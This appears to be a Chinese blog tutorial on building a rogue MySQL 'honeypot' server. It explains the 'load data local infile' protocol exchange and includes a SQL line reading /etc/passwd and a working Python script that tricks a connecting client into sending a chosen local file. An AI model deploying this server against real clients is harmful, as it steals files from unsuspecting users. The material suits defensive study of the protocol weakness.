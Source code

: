 ```yaml
---
title: MySQL蜜罐实现
author: jh2ng
cover: 'https://image.jh2ing.com/20230709101016.png'
tags:
  - 学习笔记
categories:
  - 网络安全
abbrlink: 21052
date: 2023-07-11 00:00:00
---
```


### 原理
MySQL中的`load data infile`命令可以读取文件并将其内容导入到表中，通过这个命令可以读取到服务器端或者客户端的文件，然后把内容存入表中。前提是当前用户有读取文件的权限。
```sql
load data local infile '/etc/passwd' into table test fields terminated by '\n';
```
> `local`从客户端读取文件，不指定则从服务器端读取文件
> `/etc/passwd`指定文件
> `test`指定写入的表

![20230702215101](https://image.jh2ing.com/20230702215101.png)
正常情况下，Client想要将本地中的test文件数据插入表中，向Server发起`load data local infile 'test.txt' into table table_name`命令，Server收到请求命令后向Client索要此文件内容，Client收到之后便开始向Server发送文件。

可以看到Server和Client是对话的方式进行通信，而比较有意思的是Client并不会记录上一次请求的信息，而是第一次请求之后按照Server响应的内容进行下一步的动作，所以可以在Server端构造响应内容来对Client进行欺骗。
![20230709101016](https://image.jh2ing.com/20230709101016.png)
`load data local infile`来读取本地文件的过程中，首先Client向Server发出文件插入表的请求，然后<font color='red'>Server会向Client请求`test`文件的内容</font>,如果将Server响应的信息进行修改，就可以让Server获取到自己想要的文件。

接下来通过简单分析MySQL协议的数据包来了解伪造恶意MySQL服务器的大致原理。
- 服务端：192.168.73.141
- 客户端：192.168.73.1

**三次握手，建立连接**
服务端-->客户端发送初始化包
客户端-->服务端发送认证包
服务端-->客户端发送结果包
![20230711144805](https://image.jh2ing.com/20230711144805.png)

当客户端和服务端完成三次握手之后，服务端会向客户端发送packet，其中包括了协议版本、数据库版本等等。
![20230711145002](https://image.jh2ing.com/20230711145002.png)
客户端收到服务端初始化数据包之后回复认证包，可以看到里面含有`Username`和`Password`等信息。
![20230711145949](https://image.jh2ing.com/20230711145949.png)
服务端接受到认证之后，会向客户端回复其认证结果。
![20230711150238](https://image.jh2ing.com/20230711150238.png)
以上就是MySQL建立连接的过程，认证成功之后，就可以和服务端进行交互。
向服务端发送命令，服务端返回结果：
![20230711151227](https://image.jh2ing.com/20230711151227.png)
这里重点分析`load data infile`命令执行的过程，首先客户端发起`load data infile`命令。
![20230711151741](https://image.jh2ing.com/20230711151741.png)
然后服务端响应，将这个文件名字给客户端。
![20230711152006](https://image.jh2ing.com/20230711152006.png)
客户端将文件内容发送给服务端。
![20230711152524](https://image.jh2ing.com/20230711152524.png)
服务端返回成功。
![20230711152713](https://image.jh2ing.com/20230711152713.png)
以下是完整交互过程，绿色的为查询表中是否存在`flag.txt`中的文件信息，可以看到在交互过程中服务端向客户端响应之后，客户端将响应的文件内容发送给服务端。
![20230711153340](https://image.jh2ing.com/20230711153340.png)

### 实现
服务端和客户端建立连接的过程是固定的，首先监听3306端口，等待连接建立，如果有人连接，则返回初始化包，这时如果对方发送认证包，这里直接向对方返回成功请求。所以初始化包和结果包的返回信息直接复制到代码中去。
初始化包：
![20230711154332](https://image.jh2ing.com/20230711154332.png)
```python
get_version =b"\x4a\x00\x00\x00\x0a\x35\x2e\x37\x2e\x32\x36\x00\x06\x00\x00\x00\x2f\x37\x13\x0c\x6f\x39\x3b\x72\x00\xff\xf7\xc0\x02\x00\xff\x81\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0f\x2b\x73\x18\x33\x58\x1a\x19\x5f\x6c\x38\x31\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
```
结果包：
![20230711154510](https://image.jh2ing.com/20230711154510.png)
```python
resp = b"\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"
```

<font color='red'>重点在于服务端向客户端响应文件的数据包，即构造向客户端要求返回指定文件内容的数据包。</font>
![20230711162407](https://image.jh2ing.com/20230711162407.png)
`Packet Length`：`0b 00 00`
`01 fb`固定不变
内容：`44 3a 66 6c 61 67 2e 74 78 74`

这里的`Packet Length`值实际上就是文件长度+1，因为MySQL协议中的字符串表示以NULL字节（\0）作为结尾，所以需要`+1`。

python实现脚本如下：
```python
import socket


ser_socket = socket.socket()
port = 3306

ser_socket.bind(("",port))
ser_socket.listen(5)
conn, address = ser_socket.accept()

get_version =b"\x4a\x00\x00\x00\x0a\x35\x2e\x37\x2e\x32\x36\x00\x06\x00\x00\x00\x2f\x37\x13\x0c\x6f\x39\x3b\x72\x00\xff\xf7\xc0\x02\x00\xff\x81\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0f\x2b\x73\x18\x33\x58\x1a\x19\x5f\x6c\x38\x31\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"

conn.sendall(get_version)
conn.recv(10240)
resp = b"\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"
conn.sendall(resp)
conn.recv(10240)

fileName = "C:/Users/Test/Desktop/flag.txt"
packet_length = (len(fileName)+1).to_bytes(3,'little')
payload = packet_length + b"\x01\xfb" + fileName.encode()
conn.sendall(payload)
content = conn.recv(10240)
if len(content)> 4 :
    content_str = content.decode()
    print(content_str)

conn.close()
```

**参考链接**
> https://www.hetianlab.com/specialized/20230406153147